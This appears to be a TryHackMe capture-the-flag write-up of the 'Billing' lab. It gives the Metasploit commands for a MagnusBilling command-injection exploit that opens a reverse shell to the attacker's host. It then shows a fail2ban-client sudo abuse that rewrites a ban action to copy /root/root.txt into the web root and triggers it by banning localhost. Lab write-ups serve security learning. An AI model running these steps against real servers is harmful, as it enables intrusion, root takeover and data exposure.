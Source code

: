```yaml
---
title: Billing
categories: [Web, Easy]
tags: [web, easy, nmap, dirsearch,Metasploit]
image: images/billing/room_image.webp
---
```


# Billing - TryHackMe Writeup
Billing was a straightforward room where we exploited a command injection vulnerability in the MagnusBilling web application to gain an initial foothold. Afterwards, using our sudo privileges, which allowed us to interact with and configure the fail2ban-server, we successfully escalated to the root user and completed the room.

## Step 1: Initial Reconnaissance with Nmap

Scan the target to identify open ports and services:  
```
nmap -Pn -sC -sV -sC -A -p- <targetIP>
```
![nmap](images/Billing/nmap.png)

**Output**:  
- **Port 22 (SSH)**: Open, indicating potential SSH access.  
- **Port 80 (HTTP)**: Open, hosting a web server.
- **Port 3306 (msql)**
- **Port 5038 (Asterisk)**


Visiting `http://10.10.160.86/` redirects us to /mbilling/, where we find the MagnusBilling application running.

![web](images/Billing/website.png)


## step 2: Gaining an Initial Foothold via MagnusBilling RCE
Given the presence of the MagnusBilling application, our next step was to search for known vulnerabilities associated with it We immediately turned to Metasploit Framework to see if any public exploits were available.

Inside msfconsole, we searched for "magnusbilling":

![exploit](images/Billing/use .png)

```bash
msfconsole
search magnusbilling
```
This search yielded several potential exploits. We identified and selected exploit/linux/http/magnusbilling_rce_command_injection (or similar, based on your memory of the specific exploit number you mentioned, e.g., "num 6"). This exploit specifically targets a command injection vulnerability within the MagnusBilling application, which aligns with our goal of achieving Remote Code Execution (RCE).

We then proceeded to configure the necessary options for the exploit:

```console
use exploit/linux/http/magnusbilling_rce_command_injection # Replace with the exact module path
show options
set RHOSTS <targetIP>
set LHOST <yourTun0IP> # Or whatever interface you used for your VPN connection
exploit
```
After executing the exploit, we successfully obtained a reverse shell on the target system. Our initial shell landed us as the www-data user.

We navigated to /home/magnus and located the user.txt flag, confirming our successful initial compromise:

```shell
cd /home/magnus
ls -la
cat user.txt
```
![web](images/Billing/flag1.png)

## Step 3: Privilege Escalation.

Step-by-Step Explanation of the Commands

### 1. Restart Fail2Ban to apply any changes

```bash
sudo /usr/bin/fail2ban-client restart
```

This command restarts the Fail2Ban service.

It ensures any configuration changes or command modifications will be loaded and active.

You see a warning about allowipv6 not defined — this is normal and does not affect functionality.

### 2. Modify the ban action for the SSH jail

```bash
sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'cat /root/root.txt > /var/www/html/mbilling/lib/icepay/root_exposed.txt && chmod 777 /var/www/html/mbilling/lib/icepay/root_exposed.txt'"
```

This changes the actionban command for the sshd jail in Fail2Ban.

Instead of only banning IPs via iptables, it runs a bash command.

The bash command copies the content of /root/root.txt to a web-accessible location (/var/www/html/mbilling/lib/icepay/root_exposed.txt).

It then sets the permissions of this file to 777 (read/write/execute for everyone) to ensure it’s accessible.

This effectively leaks the root-only file to the web directory, allowing retrieval via HTTP.

### 3. Trigger the ban action by banning the localhost IP

```bash
sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1
```

This manually bans the IP address 127.0.0.1 (localhost) for the sshd jail.

Triggering this ban executes the modified actionban command.

The result is that the secret file is copied and permissioned as defined in step 2

### 4. Verify that the secret file is exposed

```bash
cat /var/www/html/mbilling/lib/icepay/root_exposed.txt
```

This reads and displays the content of the copied file in the web directory.

The file contains the secret flag or sensitive information from /root/root.txt.

It confirms the success of the exploitation.



## Summary
The **"Billing"** machine on TryHackMe presented a clear path to compromise, starting with an Nmap scan to reveal open ports and the **MagnusBilling** web application. We exploited a Remote Code Execution (RCE) vulnerability in MagnusBilling using **Metasploit**, which granted us an initial **www-data** shell. For privilege escalation, we discovered a crucial sudo misconfiguration allowing interaction with **fail2ban-server**. By leveraging this, we successfully escalated to root, fully compromising the system and retrieving both the user and root flags.